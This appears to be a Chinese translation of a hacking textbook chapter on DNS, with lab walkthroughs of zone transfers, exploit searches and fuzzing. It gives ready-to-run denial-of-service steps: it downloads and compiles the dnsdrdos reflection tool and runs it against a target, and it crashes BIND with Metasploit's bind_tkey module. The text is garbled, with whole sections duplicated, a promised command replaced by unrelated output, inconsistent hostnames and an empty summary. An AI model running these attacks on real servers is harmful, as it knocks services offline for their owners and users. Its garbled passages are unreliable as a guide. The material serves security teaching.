

图 5.3：使用 Wireshark 捕获的 DNS 查询

图 5.4 显示了在 Wireshark 中查看该查询的响应时的样子。在图像中，你可以看到数据包是、原始查询是否经过验证，以及标志是否设置。注意请求（见图 5.3）和响应中的事务 ID，它是 0xb85a9。

还要注意目的端口（UDP 端口 51200）。目的端口在数据包的 UDP 部分指定，并随每次请求而变化；它与事务 ID 匹配，响应才是成功的。这意味着如果你想拦截并更改 DNS 查找，你必须能够确定这些信息以回复查询。当响应从名称服务器返回时，目的端口必须与客户端确定的原始查询源端口匹配，才能被客户端接受。



图 5.4：使用 Wireshark 捕获的 DNS 响应

## 信息泄露

也可以查询 DNS 名称的其软件类型和版本。这并不总是奏效，但如果服务器配置不当，它可能会泄露用于识别漏洞的信息。

一个有趣的案例是 BIND 软件，它似乎支持查询 CHAOS 类，CHAOS 是 ARPANET 时代的遗留网络——在（现在所知的互联网出现之前，以及在互联网协议（IP）开发之前。曾几何时这被用于查询早期计算机，但现在它被重新用于查询软件实例本身。

你到为止运行的查询默认具有 IN 或 Internet 类，但为什么不指定 CH 或 CHAOS 类呢？CHAOS 类被 BIND 用于存储关于自身的信息，如元数据。我们不再查询域名系统，而是查询运行在目标名称服务器上的 BIND 实例。不过，查询的形式是域名，但使用 .bind 作为顶级域名。当你这样进行查询时，答案将以 TXT（文本）记录的形式返回。你可以如下所示使用 CHAOS 类查询 BIND：

```
dig <NameServer> <Class> <DomainName> <RecordType>
```

这是一个示例命令：


# 第 5 章 域名系统

```
nsa.gov      3600 IN NS ns1.nsa.gov.
nsa.gov      3600 IN NS ns2.nsa.gov.
nsa.gov      3600 IN MX 10 mail1.nsa.gov.
nsa.gov      3600 IN MX 20 mail2.nsa.gov.
fedora.nsa.gov 3600 IN TXT "the black sparrow password"
fedora.nsa.gov 3600 IN AAA fd7f:bad6:99f2::1233
fedora.nsa.gov 3600 IN A 10.1.0.0
firewall.gov  3600 IN A 10.1.0.105
fw.nsa.gov   3600 IN TXT "=vspf1 a mx ip4 10.1.0.1.25
mail1.nsa.gov 3600 IN A 10.1.0.25
mail2.nsa.gov 3600 IN TXT "=vspf1 a mx ip4 10.1.0.1.26
mail2.nsa.gov 3600 IN A 10.1.0.26
ns1.nsa.gov   3600 IN A 10.1.0.50
ns2.nsa.gov   3600 IN A 10.1.0.51
prism.nsa.gov 3600 IN A 172.16.40.1
prism6.nsa.gov 3600 IN AAA ::1
signt.nsa.gov  3600 IN A 10.1.0.101
snowden.nsa.gov 3600 IN A 172.16.40.1
vpn.nsa.gov   3600 IN A 10.1.0.103
web1.nsa.gov   3600 IN CNAME fedora.nsa.gov.
webmail.nsa.gov 3600 IN A 10.1.0.104
www.nsa.gov   3600 IN CNAME webmail.nsa.gov.
kkeyscore.nsa.gov 3600 IN TXT "knock twice to enter"
kkeyscore.nsa.gov 3600 IN A 10.1.0.100
nsa.gov        3600 IN SOA ns1.nsa.gov.root.nsa.gov.
200701041 3600 600 86400 600
; Query: time msec
; SERVER: 192.168.56.101(192.168.56.101)
; Word: Mon Dec 17 15:37:25 GMT 2018
; XFR size: 27 records (messages 1, bytes 709)
```

其中包含了许多主机名和 IP 地址。你可以看到之前提到的 SPF 记录，也可以通过请求每个邮件主机的 TXT 记录来获取这些记录。你看到的另一个是两个 TXT 记录，几乎可以肯定是人类留下的——也许是密码？虽然通过这种方式找到密码的想法可能让你觉得有趣，但它确实会发生，所以请务必留意这类小错误，并将此类发现添加到你的笔记中以备后之用。通过此 DNS 查询返回的主机列表现在可以添加到你的目标列表中，并应该执行进一步的 DNS 查询以获取完整的主机列表和相应的 IP 地址。

# 信息收集工具

如果你没有足够的运气通过区域传输（zone transfer）在一次查询中获取所有信息，幸运的是还有其他方法。正如你已经看到的，可以使用像 `Recon-ng` 这样的工具对主机名进行暴力破解。这种方法查询的是真实世界的 DNS。枚举单个名称服务器（无论虚拟与否）主机名的一种方法是使用 `Fierce`。

## Fierce

该工具可用于从虚拟的 NSA 名称服务器收集信息。可以通过 `fierce --help` 获取有关使用 `Fierce` 的帮助。以下是一个简单的用法示例：

```
fierce -dnserver 192.168.56.101 -dns nsa.gov
trying zone transfer...
Unsuccessful in zone transfer (it was worth a shot)
Okay, trying the good old fashioned way... brute force
```

```
Checking for wildcard DNS
Nope. Good.
Now performing 2280 test(s)...
10.1.0.100 xkeyscore.nsa.gov
10.1.0.101 signt.nsa.gov
10.1.0.102 fw.nsa.gov
10.1.0.103 vpn.nsa.gov
10.1.0.104 webmail.nsa.gov
10.1.0.105 firewall.nsa.gov
10.1.0.25 mail1.nsa.gov
10.1.0.26 mail2.nsa.gov
10.1.0.50 ns1.nsa.gov
10.1.0.51 ns2.nsa.gov
```


其中包含了许多主机名和 IP 地址。你可以看到之前提到的 SPF 记录，也可以通过请求每个邮件主机的 TXT 记录来获取这些记录。你看到的另一个是两个 TXT 记录，几乎可以肯定是人类留下的——也许是密码？虽然通过这种方式找到密码的想法可能让你觉得有趣，但它确实会发生，所以请务必留意这类小错误，并将此类发现添加到你的笔记中以备后之用。通过此 DNS 查询返回的主机列表现在可以添加到你的目标列表中，并应该执行进一步的 DNS 查询以获取完整的主机列表和相应的 IP 地址。

## 信息收集工具

如果你足够幸运通过区域传输在一次查询中获取所有信息，幸运的是还有其他方法可以实现它。正如你已经看到的，可以使用像 `Recon-ng` 这样的工具对主机名进行暴力破解。这种方法查询的是真实世界的 DNS。枚举单个名称服务器（无论虚拟与否）主机名的一种方法是使用 `Fierce`。

### Fierce

该工具可用于从虚拟的 NSA 名称服务器收集信息。可以通过 `fierce --help` 获取有关使用 Fierce 的帮助。以下是一个简单的用法示例：

```
fierce -dnserver 192.168.56.101 -dns nsa.gov

trying zone transfer...

Unsuccessful in zone transfer (it was worth a shot)

Okay, trying the good old fashioned way... brute force
```

```
Checking for wildcard DNS

Nope. Good.

Now performing 2280 test(s)...

10.1.0.100 xkeyscore.nsa.gov
10.1.0.101 signt.nsa.gov
10.1.0.102 fw.nsa.gov
10.1.0.103 vpn.nsa.gov
10.1.0.104 webmail.nsa.gov
10.1.0.105 firewall.nsa.gov
10.1.0.25 mail1.nsa.gov
10.1.0.26 mail2.nsa.gov
```

# 第5章 域名系统

```
searchploit bind

ISC BIND (Linux/BSD) - 远程缓冲区溢 (1)
ISC BIND (Multiple OSes) - 远程缓冲区溢 (2)
ISC BIND 4.9.7 -T1B named SIGINT / SIGIOT Symp
ISC BIND 4.9.7/x - 流量放大与 路由发现
ISC BIND 8 - 缓存污染 (1)
ISC BIND 8 - 缓存污染 (2)
ISC BIND 8.1 - 主机远程缓冲区溢
ISC BIND 8.2.2 - IRIX 6.5.17 / Solaris 7.0 - NXT溢出 / 拒绝服务
ISC BIND 8.2.2-P5 - 拒绝服务
ISC BIND 8.2.x - 'TISQ' 远程栈溢出 (1)
ISC BIND 8.2.x - 'TISQ' 远程栈溢出 (2)
ISC BIND 8.2.x - 'TISQ' 远程栈溢出 (3)
ISC BIND 8.2.x - 'TISQ' 远程栈溢出 (4)
ISC BIND 8.3.x - OPT 记录大型 UDP 拒绝服务
ISC BIND 9 - 拒绝服务
ISC BIND 9 - 远程更新消息拒绝服务 (PoC)
ISC BIND 9 - TREKY (PoC)
ISC BIND 9 - TREY 远程拒绝服务 (PoC)
Microsoft Windows Kernel - 'win32k!NtQueryCompositionSurfaceBinding' 栈内存泄露
Zabbix 2.0.5 - 明文 ldap_bind_password 密码泄露 (Metasploit)
```

如你从这段截断的输出所示，有很多针对 BIND 的漏洞利用，这些漏洞影响了版本 9。我们从通报中得知我们的软件是 BIND 9.8.1，你可能怀疑该软件尚未打补丁，因此尝试漏洞利用是值得的。然而，在测试客户机器时应格外小心——在继续进行并可能导致损坏之前，你需要了解该利用的实际作用。如果你正在对生产环境进行测试，那么情况确实如此，你应该先在虚拟机内部测试该利用，并运行与目标相同版本的软件。你需要使用像 `Wireshark` 的工具仔细监控攻击，并在之后探索攻击对虚拟机的影响。如果你是在客户的开发环境中运行攻击，这可能没有必要。在向他们的生产服务器盲目发送漏洞利用之前，你应该先与客户确认这一点。`Searchploit` 有方法显示每个漏洞利用的信息。不带参数运行该工具将提供基础用法说明。

## 其他来源

一个查找和搜索漏洞的有用网站是 `www.securityfocus.com`。从这里你可以查看（并订阅）：

Bugtraq，一个专门用于计算机安全问题的邮件列表。要搜索 BIND 漏洞，请前往 `www.securityfocus.com/vulnerabilities` 搜索页面，并使用厂商下拉菜单选择 Internet Software Consortium (ISC)，然后选择 BIND，并输入版本号。尝试搜索其他厂商的不同软件。你会发现存在很多很多漏洞，但并不是每个漏洞都有可用的利用程序。

你也可以使用 Exploit Database 网页、`Searchsploit` 来搜索漏洞利用，假设它是最新的，但无论如何你都可以这样做。如果你想要一个漂亮的网页界面，这是一个值得尝试的，至少可以熟悉这个流程。你还可以在浏览器中查看漏洞利用信息，包括利用程序的源代码。

另一个检查地方是软件厂商的网站。大多数网站都有专门的区域来强调漏洞和相关的修复程序。在特定情况下，你应该去 `www.isc.org`。查看不同版本的软件说明是学习各种漏洞和修复的好方法。

如果你正在搜寻零日漏洞，你将需要浪费时间检查所有已知漏洞，并为一个已经公开且存在利用程序的漏洞编写你自己的利用程序！了解漏洞的历史并查看应用程序中可能未受到审查或容易产生漏洞的区域也是很有用的，例如 DNS 中对特殊资源记录的处理。你可以通过我们的实验室页面 `hacker.house/labs` 找到 Hacker House 开发并发布的漏洞利用。

找到软件的名称及其版本是有用的，但它并不是发现漏洞的唯一方法。通常，需要对系统进行进一步的扫描和探测，结合攻击链或系统中的微小缺陷，来实现预期结果。枚举是为了尝试弱点并尽可能地学习信息。服务提供的协议也可能被用于枚举和攻击目的。

## DNS 流量放大

DNS 流量放大攻击是拒绝服务攻击的一种形式（在黑客组织中流行），它利用了域名系统的基本原理。当用户发送普通的 DNS 查询时，数据包通常很小，且请求单条信息——A 记录或 IP 地址。为了放大流量，你只需要从名称服务器请求大量信息（该服务器理想情况下应配置为递归查询的开放解析器，即允许互联网上任何人使用它的 DNS 服务器）。这可以通过请求 ANY 记录或产生更大响应的记录来实现。使用 `Dig`，你可以输入以下内容：

```
dig @192.168.1.10 ANY
```

这可以通过伪造受害者的 IP 地址来实现。该过程尽可能多次执行，用数据淹没受害者。这被称为僵尸网络，是一组所有者不知情的被受控计算机的集合。

## Metasploit

`Metasploit Framework` 是一个将被广泛使用的模块化框架。它可以在命令行界面中搜索、查看漏洞利用信息并运行漏洞利用。按照以下方式启动工具：

```
msfconsole
```

工具将需要一段时间来加载，但它最终会为你展示一个提示符。

```
msf >
```

你可以按照如下方式查看当前加载到 Metasploit 中的漏洞利用：

```
show exploits
```

然而，找到漏洞利用的更实用方法是像你使用 `Searchsploit` 那样对其进行搜索。作为使用 Metasploit 的入门，为什么不看一眼 DNS 放大模块呢？首先，执行如下搜索：

```
search dns_amp

Matching Modules
===================

Name                    Disclosure Date Check Description
---                     ---             ---   ---
auxiliary/scanner/dns_amp             normal Yes DNS Amplification Scanner
```

输入 `use` 后紧跟想要使用的模块的完整路径。Metasploit 支持 Tab 键补全，或者你可以复制并粘贴我们要使用的模块路径。

```
use auxiliary/scanner/dns_amp
```

成功选择一个模块进行使用后，Metasploit 的提示符将变为：

```
msf auxiliary(scanner/dns_amp) >
```

输入 `show` 将显示有关当前选择模块的信息。这是一个重要的命令，因为它允许你发现即将运行的是什么漏洞利用。`show` 命令也可以配合其他参数使用。该模块的信息显示在此：

**Name:** DNS Amplification Scanner
**Module:** auxiliary/scanner/dns_amp
**License:** Metasploit Framework License (BSD)
**Rank:** Normal

**Provided by:**

xistence <xistence@0x90.nl>

**Check supported:** Yes

**Basic options:**

| Name | Current Setting | Required | Description |
|---|---|---|---|
| BATCHSIZE | 256 | yes | 每组探测的主机数量 |
| DOMAINNAME | isc.org | yes | 所需的域名 |
| FILTER | | no | 用于流量的过滤字符串 |
| INTERFACE | | no | 接口名称 |
| PCAPFILE | | no | 要处理的 PCAP 捕获文件 |
| QUERYTYPE | ANY | yes | 查询类型 (A, NS, SOA, MX, TXT, AAAA, RRIG, DNSKEY, ANY) |
| RHOSTS | | yes | 目标地址范围或 CIDR 标识符 |
| RPORT | 53 | yes | 目标端口 (UDP) |
| SNAPLEN | 65535 | yes | 捕取的字节数 |
| THREADS | 10 | yes | 并发线程数 |
| TIMEOUT | 500 | yes | 等待毫秒数 |

**描述：**
该模块用于发现开放递归域名查询的 DNS 服务器，这些服务器可以被用于针对第三方的放大攻击。

**参考资料：**
- https://cvedetails.com/cve/CVE-2006-0987/
- https://cvedetails.com/cve/CVE-2006-0988/

该模块不是利用程序——它是一个扫描器。你可以从上一个屏幕看到是谁编写了该模块、它的简要描述以及一些参考文献。如果你想了解更多关于 DNS 放大攻击，URL 是一个很好的起点。你还会看到许多选项，其中一些是不言而喻的，另一些则不然。使用该扫描器并不要求理解所有这些选项（尽管鼓励学习它们）。目前，请关注必需的选项。这些是你必须为模块设置的选项，省略它们将无法产生预期结果，且模块很可能会失败。你可以使用 `show options` 查看模块的选项列表，而不显示其他信息。要设置选项，请使用以下语法：

```
set <OptionName> <Value>
```

要设置 DOMAIN 选项为 nsa.gov，请输入以下内容。（注意，虚拟名称服务器将是此扫描的目标，因为这是在隔离网络上运行的。它无法成功执行递归 DNS 请求，因此我们必须将其设置为对服务器已知的域名查询）。

```
set DOMAINNAME nsa.gov

DOMAINNAME => nsa.gov

msf auxiliary(scanner/dns/dns_amp) >
```

演示此模块唯一需要设置的选项是 RHOSTS 选项，因为所有其他选项都有合适的默认值。RHOSTS 列出了该模块将针对的远程主机。可以提供多个目标，但在这种情况下，虚拟名称服务器的 IP 地址即可。

```
set RHOSTS 192.168.56.101

RHOSTS => 192.168.56.101
```

在运行模块之前双重检查输入的选项是明智的，特别是对于利用程序。要运行该模块，你可以输入 `run` 或 `exploit`。模块将提供运行说明并报告可能的放大倍级。

- 正在向 192.168.56.101 发送 DNS 探测 -> 192.168.56.101 (1 个主机)
- 正在使用 ANY nsa.gov 请求向每个主机发送 67 字节
- 192.168.56.103 - 响应为 252 字节 [3.7x 放大]
- 已扫描 1 个主机 (100% 完成)
- 辅助模块执行完成

此虚拟服务器未被配置为开放递归解析器。这意味着它不会查询其他服务器来查找与其自身之外的域名相关的记录。它只会返回 nsa.gov 域名的记录。这对客户端来说是好事，这也是你应该从客户端服务器中预期的。如果这是一个开放解析器，就可以通过请求不同领域的记录来放大流量。（只需使用 `Dig` 为 google.com 发送 ANY 请求，它会返回巨大的响应）

公司通常有一个独立的 DNS 服务器用于外部 DNS 查询，且不应被公开访问。还有其他方法可以缓解这种攻击，例如限制时间内发送的响应数量，或者通过互联网服务提供商的帮助，它可以验证 DNS 数据包的服务器 IP 地址。有关流量放大的更多信息，请访问 `www.us-cert.gov/ncas/alerts/TA13-088`。

## 什么是 DoS 攻击？

### 拒绝服务

拒绝服务攻击不仅指 DNS。DoS 攻击旨在使服务器无法执行其工作，通常是通过向其发送多个其无法处理的需求来实现的。想象一下高峰时段小镇上的车站；这就像一个服务器，为到达的大群人提供服务。这群人可能会在票务排队——他们可能会买票，也可能不。无论哪种，他们都阻止了普通客户买票。在 DNS 方面，这就是被拒绝查询名称服务器的能力。这可以通过向名称服务器发送大量请求来实现。进一步的前缀通常用于指代攻击的具体类型。

### 分布式拒绝服务

分布式拒绝服务攻击发生在流量来自多个源而非仅仅单台计算机时。这些 IP 地址可能不是真实的，并且可以被伪造。攻击者经常会使用僵尸网络来执行 DDoS 攻击。如果你回想之前的示例，分布式攻击将是人们到达一个繁忙的车站，而不仅仅是到达最热门服务故障的某一个车站。这将导致网络中断的意外影响。

### 分布式反射拒绝服务

分布式反射拒绝服务攻击发生在攻击者伪装成目标，向大量机器发送请求的场景。这些伪造的请求将包含目标的 IP 地址，并看起来源自目标。对这些虚假请求的响应将发送回目标，用大量的流量淹没它。这可以看作是攻击者通过策略性放置的海报冒充了车站。

## 执行拒绝服务攻击

一旦你发现了一个可以显著放大流量的 DNS 服务器，你就可以利用它来执行拒绝服务攻击。有很多方法可以做到，但一种常见的方法就是获取别人编写的利用程序并运行它。让我们来看由 NullSecurity 编写的这样一个利用程序，他是一个以攻击性工具 `dnsdrdos` 著名的专家黑客。这是一个 C 语言编写的程序，在运行之前需要编译。加载脚本、对其进行修改和编译都是黑客的基本日常工作。如果你不熟悉如何使用命令行进行这些操作，这里是基础。如果你知道文件的位置，使用 `wget`：

```
wget --user=student https://www.hackerhouse.com/files/dnsdrdos.c
```

要查看此文件的内容可以使用 `cat`（连接）或 `less`（一个类似于 more 的程序；参见其帮助页）。在编译和运行之前，总是建议检查源代码（此处内容过长不显示）。

```
cat dnsdrdos.c
```

该程序可以使用 `gcc` 编译。它输出一个名为 `dnsrdos` 的新 Linux 文件。

```
gcc dnsdrdos.c -o dnsrdos
```

你可以执行此程序：

```
./dnsrdos
```

然而，这将导致错误，因为你没有指定任何参数。可以通过提供 `-H` 查看该工具的帮助页。

```
./dnsrdos -H
```

程序需要一个包含 DNS 服务器列表的文本文件。使用你喜欢的编辑器创建一个文件，并添加开放解析器的列表。这些是允许递归查询第三方域名的 DNS 服务器。在我们的案例中，我们设置示例服务器。

```
vim dns_servers.txt
```

一旦一切就绪，你可以如下运行此攻击：

```
./dnsrdos -f dns_servers.txt -s <TargetIP> -d nsa.gov -l 20
```


你可以通过让利用程序对你的 Kali Linux 机器发动 DoS 攻击来尝试。这是一个真正的 DoS 攻击，因为攻击不是分布式的，但你可以看到简单的知识就能让大型组织的服务器停机一段时间。攻击者可以从许多主机发起这种攻击，使用许多开放服务器，并完全淹没服务器。DNS 不是用于执行 DoS 攻击的唯一系统或协议。网络时间协议（NTP）和服务简单发现协议（SSDP）是其他基于 UDP 的协议。为了更好地理解这种攻击，可以使用 Wireshark 查看 dnsrdos 并观察数据包运行。

## 使用 Metasploit 进行 DoS 攻击

早些使用 Searchploit 搜索 isc bind 发现了针对版本 9 的多个利用程序。现在这些程序将用于演示当利用程序直接针对名称服务器时会发生什么。之前的 DoS 攻击利用名称服务器来针对其他系统。这次，利用程序将直接针对名称服务器。Searchploit 发现的 BIND9 的利用程序之一被称为“TKEY 远程拒绝服务”。TKEY（事务密钥）是一种类似于 A、MX 或 TXT 的资源记录。TKEY 用于身份验证目的。（更多信息请参阅本章的“DNSSEC”章节。）

针对这种情况有一个对应的 Metasploit 模块。该模块利用 CVE-2015-5477。在 Metasploit 中搜索 `tkey` 即可找到它。

```
search tkey
```

可以通过如下方式选择该模块：

```
use auxiliary/dos/bind_tkey
```

如果你对某个模块不熟悉，请务必检查其信息。

```
show info
```

你可以通过以下命令显示模块的选项：

```
show options
```

为你的攻击设置目标地址（`RHOSTS`）。这将是 DNS 服务器的 IP 地址。

```
set RHOSTS 192.168.56.101
```

再次检查该模块的选项，确保你已经输入了正确的 IP 地址。当你输入 `run` 或 `exploit` 时，该模块将产生一个格式异常的 DNS 查询，请求 TKEY 记录。由于 BIND9 处理查询的方式存在 bug，守护进程将因 `REQUIRE` 断言失败而退出。这个 bug 是由于代码设计为在当某些条件不成立时停止程序运行。这是断言软件开发的基本原理。任何人都可以从远程触发这一点显然是一个问题，因为该错误没有被应用程序处理，强制其退出。当你准备好继续时，在提示符处输入 `run`。

```
msf auxiliary/(dos/dns/bind_tkey) > run
```

- [* 向 192.168.56.103 发送包 (100% 完成)
[*] 扫描到 1 个活动主机
[*] 辅助模块执行完成

如果攻击成功，此攻击将导致服务崩溃（服务器仍仍在运行）。要检查这一点，尝试使用 Dig 请求 ns.gov 的 A 记录。你是否收到了来自服务器的实时响应？如果你没有收到响应，那是因为域名服务由于上述的断言失败而退出了。如果你用 Nmap 扫描 53 端口，你会发现该端口是关闭的。

```
root@local:~# nmap 192.168.56.101 -sU -p 53

Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-19 14:04 GMT

Nmap scan report for 192.168.56.101

Host is up (0.00027s latency).

PORT    STATE  SERVICE
53/udp  closed domain
MAC Address: 08:00:27:FA:D3
Nmap done: 1 IP address (1 host up) scanned in 0.27 seconds
```

TCP 端口 53 也是如此，因为同一个服务软件负责两者。要继续对 DNS 服务进行进一步的侦察或攻击，你需要重启虚拟机（或登录并重启服务）。这就是虚拟机的魅力所在；只需点击几次，你就能让域名服务器重新运行。

## 导致客户端域名服务器崩溃

在你的虚拟机上导致域名服务停止工作是一回事，但如果你是在为客户工作，在运行此类漏洞程序之前应该先进行检查。请理解，你的受害者可能希望你不扰乱他们的 DNS，或者你可能安排一个合适的时间，以产生最小的影响。验证和确认受害者很重要，但也要避免对客户业务造成干扰的风险。记住，你对所评估的任何网络都是访客。

## DNS 欺骗

能够查看网络流量（特别是包含 DNS 请求的 UDP 数据包）的攻击者，可以使用强制响应来回复这些请求。这在为顾客提供免费 Wi-Fi 的咖啡馆中可能是可能的。攻击者看到对知名银行应用程序的请求，然后发送一个包含其自己伪造的在线银行网站 IP 地址的响应。受害者在不经意间向仿造网站提供了登录详情，点击确定，然后被重定向到虚假网站。由于 DNS 使用的是 UDP（一种无连接的协议），第一个具有正确事务 ID 并到达端口的 DNS 响应将会被接受。

这只是 DNS 欺骗可能的使用方式的一个例子。要使攻击生效，攻击者需要知道受害者 DNS 请求的事务 ID，以及 UDP 源端口（只有 DNS 服务器会为每个请求使用不同的端口）。这种“捕获并响应”的方法已在一个名为 DNSspoof 的工具中实现，该工具由 Dug Song 编写。你可以在本地局域网上尝试此工具，看看它对网络的影响。该软件将响应任何识别出的 DNS 请求，并告知请求客户端你的 IP 就是他们恰好查找的任何主机的 IP。DNS 欺骗使得攻击源变得难以追踪，因为攻击者可以掩盖违规 DNS 数据包的来源。在尝试追踪使用 DNS 的 DDoS 攻击源时，这是一个特别的问题。

## DNS 缓存污染

DNS 名称服务器的一个内置缺陷是，如果它们包含错误或虚假信息，可能会将这些信息传递给客户端和其他服务器。攻击者可以故意更改名称服务器缓存中的条目，使其收到的任何查询都获得错误结果。这种技术被称为缓存污染。缓存可以被修改为返回攻击者控制的主机的 IP 地址。想象一下，如果你的家庭路由器为你喜欢的网站引入了虚假记录。每当你上网查看图片时，你会被无意地带到一个请求比特币的攻击者网站。

## 什么是 DNS 解析器和缓存？

### 解析器

解析器是域名系统对客户端的名称。名称服务器既可以是服务器也可以是客户端。当它获取接收到的查询并尝试递归获取答案时，它就变成了解析器。

### 开放解析器

开放解析器是指回答任何人的 DNS 查询并尝试解析它们的解析器。`8.8.8.8` 和 `9.9.9.9` 等开放解析器可用于流量放大攻击，通常是因为系统管理员的配置错误或错误。

### 解析器缓存

解析器缓存是包含最近请求的 DNS 记录的数据库。公司的工作站以及日常 PC 都会包含解析器缓存。许多名称服务器也包含解析器缓存，例如 `8.8.8.8`、`9.9.9.9` 以及属于你 ISP 的服务器。条目在缓存中的保留时间与 TTL 相同；它们会在过期后被移除。

## DNS 缓存嗅探 (DNS Cache Snooping)

一种被称为缓存嗅探（cache snooping）的技术可用于暴露网络上用户或一组用户的浏览历史。以你的家庭网络为例。你可以通过向路由器发送某些域名的常规 DNS 查询来嗅探你家庭路由器的缓存，但请确保已禁用递归查询。这可以通过关闭递归查询位（或标记）来实现。如果路由器响应了你指定的域名的 IP 地址，那么它的缓存中一定存有该地址。可以使用 Dig 和 Nlookup 等工具在查询时关闭递归。使用 Dig 时，你只需提供 `+norecurse` 选项即可。这里是一个示例：

```
dig somethingelse.com +norecurse
```

你会发现，当你查询缓存（检查输出）而你的路由器缓存中不包含 somethingelse.com 的 A 记录时，该查询将导致 SERVFAIL 错误。现在尝试在不关闭递归的情况下再次尝试该查询。

```
dig somethingelse.com
```

这一次，你应该会收到一个有效的响应。现在，如果你在禁用递归的情况下再次发送相同的请求，你应该发现你的路由器仍然拥有答案。返回回复所需的时间也可以作为嗅探的基础。通常情况下，如果一个查询需要很长时间才能得到回答，可能在获得答案之前必须查询了多个名称服务器。

## DNSSEC

多年来，DNS 安全扩展（DNSSEC）一直在不断改进，为 DNS 添加了身份验证和数据完整性，使其更难被利用。由于协议的改进，启用 DNSSEC 的名称服务器对其他响应的信任度较低。DNSSEC 使用了公钥基础设施（PKI），这是一种使用由证书机构（信任第三方）颁发的证书来确认人员和组织身份的方法。对 DNSSEC 的误解之一是它加密 DNS 查询和响应，但事实并非如此。如果 DNS 数据包被拦截，其内容仍然可以读取。为了支持这种 PKI，增加了新的资源记录（如 TKEY），使得引入虚假记录变得困难得多。各种 RFC 文档中详细解释了 DNSSEC。如果你对 DNS 的内部机制感兴趣，2004 年 8 月的 RFC 3833 是一个很好的入门点。RFC 3833 的精彩之处在于它还解释了漏洞的工作原理，这对于任何黑客来说都是极佳的读物。

## 模糊测试 (Fuzzing)

模糊测试是一种通过注入随机或无效输入以引发故障发生，从而发现任何软件或技术中漏洞的方法。让我们来看看如何对 DNS 进行模糊测试。这将通过创建随机的 DNS 查询、修改 UDP 数据包的组成以及泛洪名称服务器来导致软件故障来实现。名称服务器以及运行其上的软件与任何网络服务一样，数据包是以特定的格式发送的。通过提供意想不到的输入，可能会有一种导致意料之外的行为（例如拒绝服务状态），从而导致服务器离线。识别潜在漏洞是许多黑客的习惯和消遣活动。

模糊测试可能会揭示其他缺陷，例如信息或数据泄露。你可能认为现有的 DNS 实现和软件已经经过了大量的模糊测试，事实上，这正是许多新漏洞的诞生方式。在对 DNS 进行模糊测试时，你可能会导致服务离线，但准确知道是哪个数据包或查询导致了问题是理想的，这样可以进一步探索并重现问题。对 DNS 进行模糊测试的最佳时机是你使用不寻常或罕见的 DNS 包时——而不是 BIND 或任何流行的广泛使用的 DNS 软件，尽管在测试过程中不要排除它们！许多漏洞的发现是因为有人在许多人认为已经探索过的地方寻找了它们。

你可能会遇到一些自定义的 DNS 服务，例如 myfirstdns，它简直是在大声说“快来模糊我”。开发者和系统管理员经常在公开的工具上留下带有 Bug 且低效的代码。已经开发了用于对 DNS 进行模糊测试的工具，例如 Metasploit 中的 `dns-fuzzer` 模块或为 Nmap 提供的 `dns-fuzzer` 脚本。

Nmap 脚本将在下一章介绍，但这里是你可以如何运行 Nmap 脚本对 DNS 服务器进行模糊测试的：

```
nmap -sU --script dns-fuzz --script-args timeout=2h 192.168.56.101 -p 53
```

除了启动横幅外，你将看不到任何输出。

```
Starting Nmap 7.70 ( https://nmap.org ) at 2018-12-19 12:39 GMT
```

因此，如果你想看到它底层在执行什么，启动 Wireshark 并检查网络接口，你将看到正在发送的数据包（图 5.5）。如果软件无法处理畸形内容，即使畸形数据包之一也可能导致名称服务器崩溃。



图 5.5：使用 Wireshark 查看的畸形 DNS 数据包

如果你想模拟一次成功的模糊测试攻击，可以在此模糊测试进行期间再次运行 Metasploit 中的 TKEY 漏洞模块。该模块将导致存在漏洞的 9.8.1 版本 BIND 服务器崩溃。

## 总结

